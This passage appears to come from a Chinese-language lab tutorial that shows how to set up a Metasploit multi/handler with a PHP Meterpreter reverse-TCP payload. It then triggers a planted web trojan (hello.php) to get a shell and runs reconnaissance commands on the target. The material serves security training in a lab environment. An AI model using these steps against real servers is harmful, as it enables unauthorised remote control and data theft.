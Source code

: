 
![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480994046645.png-wm)

### 4.4 使用 Metasploit 创建 WebShell

在上诉步骤成功之后，接着在 Kali 中打开 MSF 终端：

```
# 在 Kali 终端中打开 MSF 终端
msfconsole
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/8797/1534153209559.png-wm)

分别输入如下命令：

```
# 使用相应模块
use multi/handler

set payload php/meterpreter/reverse_tcp

# 查看所需要填写的参数
show options

# 设置攻击者的主机参数
set LHOST 192.168.122.101
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/8797/1534156491438.png-wm)

在输入攻击命令后，进入待命状态：

```
# 对目标主机进行攻击
exploit
```

此时只要在有木马的网站，访问该页面即可，在火狐浏览器中，输入如下地址：

```
127.0.0.1/hello.php
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/8797/1534156625088.png-wm)

### 4.5 查看目标靶机的信息

输入命令，查看靶机的信息：

```
# 查看系统信息
sysinfo

# 查看当前 id 
getuid

# 查看当前路径
pwd

# 查看当前目录下文件
ls
```
